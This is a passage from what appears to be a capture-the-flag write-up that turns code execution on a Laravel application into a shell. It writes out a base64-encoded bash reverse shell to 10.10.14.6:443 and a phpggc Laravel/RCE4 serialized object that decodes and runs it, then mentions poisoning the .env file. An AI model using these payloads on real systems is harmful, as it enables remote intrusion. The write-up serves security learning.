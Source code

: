 ![](/img/image-20220629133839361.png)

RCE!

#### Shell

I'll base64-encode a [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw) adding a couple
extra spaces to get rid of `/` and `=` characters):



    oxdf@hacky$ echo "bash  -i >& /dev/tcp/10.10.14.6/443 0>&1 " | base64
    YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK



I don't need the `bash -c '[payload]'` because I'm going to pipe it into
`bash` after decoding.

I'll encode that into a PHP object:



    oxdf@hacky$ /opt/phpggc/phpggc -a Laravel/RCE4 system "echo 'YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK'|base64 -d|bash"
    O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{S:9:"\00*\00events";O:31:"Illuminate\Validation\Validator":1:{S:10:"extensions";a:1:{S:0:"";S:6:"system";}}S:8:"\00*\00event";S:78:"echo 'YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK'|base64 -d|bash";}



I'll re-poison the `.env` file, and refresh the page to get a session in
Redis:
